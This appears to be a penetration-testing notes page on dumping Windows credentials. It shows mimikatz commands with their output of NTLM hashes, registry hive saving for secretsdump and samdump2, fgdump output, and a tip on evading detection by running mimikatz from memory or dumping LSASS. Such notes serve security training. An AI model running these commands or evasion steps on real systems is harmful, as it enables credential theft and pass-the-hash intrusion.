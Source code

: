 As already said [^1], SAM database cannot be copied while the operating system is running because the Windows kernel keeps an exclusive file system lock on the file. However, we can use [mimikatz](../Tools/mimikatz.md) to mount in-memory attacks designed to dump the SAM hashes.

[^1]: [Windows Hash](../Dev,%20scripting%20&%20OS/Windows%20Security%20101.md#Windows%20Hash)

>[!tip]
>In the following example, we will run Mimikatz as a standalone application.
>However, due to the mainstream popularity of Mimikatz and well-known detection signatures, consider avoiding using it as a standalone application. For example, execute Mimikatz directly from memory using an injector [^2] or use a built-in tool like Task Manager to dump the entire LSASS process memory, move the dumped data to a helper machine, and from there, load the data into Mimikatz.

[^2]: [In-memory Injection](../Dev,%20scripting%20&%20OS/Powershell%20for%20pentesters.md#In-memory%20Injection)

Among other things, mimikatz modules facilitate password hash extraction from the Local Security Authority Subsystem (LSASS) process memory where they are cached. Since LSASS is a privileged process running under the SYSTEM user, we must launch mimikatz from an administrative command prompt.

```powershell
C:\> C:\Tools\password_attacks\mimikatz.exe
...
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
740 {0;000003e7} 1 D 33697 NT AUTHORITY\SYSTEM S-1-5-18 (04g,2
1p) Primary
-> Impersonated !
* Process Token : {0;0002e0fe} 1 F 3790250 corp\offsec S-1-5-21-3048852426-32
34707088-723452474-1103 (12g,24p) Primary
* Thread Token : {0;000003e7} 1 D 3843007 NT AUTHORITY\SYSTEM S-1-5-18
(04g,21p) Impersonation (Delegation)
mimikatz # lsadump::sam
Domain : CLIENT251
SysKey : 457154fe3c13064d8ce67ff93a9257cf
Local SID : S-1-5-21-3426091779-1881636637-1944612440
SAMKey : 9b60bd58cdfd663166e8624f20a9a6e5
RID : 000001f4 (500)
User : Administrator
RID : 000001f5 (501)
User : Guest
RID : 000001f7 (503)
User : DefaultAccount
RID : 000001f8 (504)
User : WDAGUtilityAccount
Hash NTLM: 0c509cca8bcd12a26acf0d1e508cb028
RID : 000003e9 (1001)
User : Offsec
Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```

Once having the hash, the next step is trying to [crack it](Password%20Attacks.md#Cracking%20Hashes) or using it to authenticate on other system through [Passing the hash](Password%20Attacks.md#Passing%20the%20hash) techniques.

## Manually dumping SAM

[impacket](../Tools/impacket.md#Dumping%20SAM)

```bash
reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

$ secretsdump.py -sam sam -security security -system system LOCAL
```

or alternately [samdump2](https://linux.die.net/man/1/samdump2)

```bash
reg save HKLM\\SAM c:\\SAM  
reg save HKLM\\System c:\\System  
  
$ samdump2 System SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a8c8b7a37513b7eb9308952b814b522b:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* HelpAssistant:1000:05fa67eaec4d789ec4bd52f48e5a6b28:2733cdb0d8a1fec3f976f3b8ad1deeef:::
*disabled* SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:0f7a50dd4b95cec4c1dea566f820f4e7:::
alice:1004:aad3b435b51404eeaad3b435b51404ee:b74242f37e47371aff835a6ebcac4ffe:::
```

## Dumping Password in Active Directory

Since Microsoft’s implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space, along with the logged users' tickets.

- [Dumping domain user from LSASS using mimikatz](../Tools/mimikatz.md#Dumping%20domain%20user%20from%20LSASS)
- [Dumping tickets from LSASS using mimikatz](../Tools/mimikatz.md#Dumping%20tickets%20from%20LSASS)

## Dumping Tools

- [mimikatz](../Tools/mimikatz.md)
- [msfconsole (dumping Passwords with kiwi)](../Tools/msfconsole.md#Dumping%20Passwords%20with%20kiwi)
- [msfconsole (dumping Tokens and Creds with incognito)](../Tools/msfconsole.md#Dumping%20Tokens%20and%20Creds%20with%20incognito)
- [Dumping Kerberos Tickets (klist)](../Dev,%20scripting%20&%20OS/Powershell%20for%20pentesters.md#Dumping%20Kerberos%20Tickets%20(klist)) using [Powershell for pentesters](../Dev,%20scripting%20&%20OS/Powershell%20for%20pentesters.md)
- [mimipenguin](https://github.com/huntergregal/mimipenguin)
- Windows Credentials Editor ([wce.exe](https://www.ampliasecurity.com/research/windows-credentials-editor/)) (legacy)
- pwdump.exe (legacy)
- [fgdump.exe](http://foofus.net/goons/fizzgig/fgdump/downloads.htm) (legacy)

```powershell
C:\>FGDUMP.EXE
FGDUMP.EXE
...
No parameters specified, doing a local dump. Specify -? if you are looking for help.
--- Session ID: 2021-02-22-21-27-44 ---
Starting dump on 127.0.0.1

** Beginning local dump **
OS (127.0.0.1): Microsoft Windows XP Professional Service Pack 1 (Build 2600)  
Passwords dumped successfully

-----Summary-----

Failed servers:
NONE

Successful servers:
127.0.0.1

Total failed: 0
Total successful: 1

C:\>type 127.0.0.1.pwdump 
type 127.0.0.1.pwdump
Administrator:500:NO PASSWORD*********************:A8C8B7A37513B7EB9308952B814B522B:::
alice:1004:NO PASSWORD*********************:B74242F37E47371AFF835A6EBCAC4FFE:::
Guest:501:NO PASSWORD*********************:NO PASSWORD*********************:::
HelpAssistant:1000:05FA67EAEC4D789EC4BD52F48E5A6B28:2733CDB0D8A1FEC3F976F3B8AD1DEEEF:::
SUPPORT_388945a0:1002:NO PASSWORD*********************:0F7A50DD4B95CEC4C1DEA566F820F4E7:::
```